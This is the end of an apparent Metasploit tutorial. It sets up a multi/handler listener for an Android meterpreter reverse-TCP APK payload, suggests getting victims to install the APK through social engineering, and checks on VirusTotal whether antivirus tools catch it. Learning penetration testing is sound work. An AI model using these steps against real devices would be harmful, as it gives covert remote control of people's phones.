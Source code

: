 In the output, we can see that the default payload for exploit (multi/handler) was (generic/shell\_reverse\_tcp). So we set the payload to our desired one (android/meterpreter/reverse\_tcp). Now let’s set up the `LHOST` to 192.168.74.128 (attack machine’s IP) and LPORT to 8080 just like we did when we created the payload:

```
msf6 exploit(multi/handler) > set LHOST 192.168.74.128
LHOST => 192.168.74.128
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
```

Now you can run this exploit to start listening in for connections –

```
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.74.128:8080
```

The meterpreter session will start as soon as the Android device installs the `apk` file. This concludes how you can create payloads with the `msfvenom` tool. You can send this `apk` out and ask the victims to install it by social engineering or go install it yourself if you have physical access. Bear in mind that violation of privacy and system penetration without permission is illegal and we suggest you use these techniques ethically for learning purposes only.

### Checking if your payload can evade anti-virus programs <a href="#post-3536-_heading-h.3tbugp1" id="post-3536-_heading-h.3tbugp1"></a>

We’ve already told you how you might try to evade the anti-virus software. Let’s have some fun now. We’ll check how many viruses can detect our `apk` payload that we just created.

<figure><img src="https://nooblinux.com/wp-content/uploads/2022/02/word-image-2.png" alt=""><figcaption></figcaption></figure>

The result is phenomenal. Or, there might be something wrong here! The VirusTotal website might not properly work for the APK files. Whatever it may be, you now know how to create custom payloads for penetration testing.

### Conclusion <a href="#post-3536-_heading-h.28h4qwu" id="post-3536-_heading-h.28h4qwu"></a>

In this tutorial, you learned about Metasploit Framework from the basics to the advanced level. You can experiment and practice to learn more on your own.

We showed you how to use Metasploit on an intentionally vulnerable machine Metasploitable 2. In reality, these types of backdated and vulnerable machines might not be present nowadays. However, there are so many vectors from where an attack might be possible. Keep on learning.

Remember to use your knowledge for the good. We hope you liked our tutorial. If you have something you’d like to ask, feel free to leave a comment. We’ll get back to you as soon as possible.
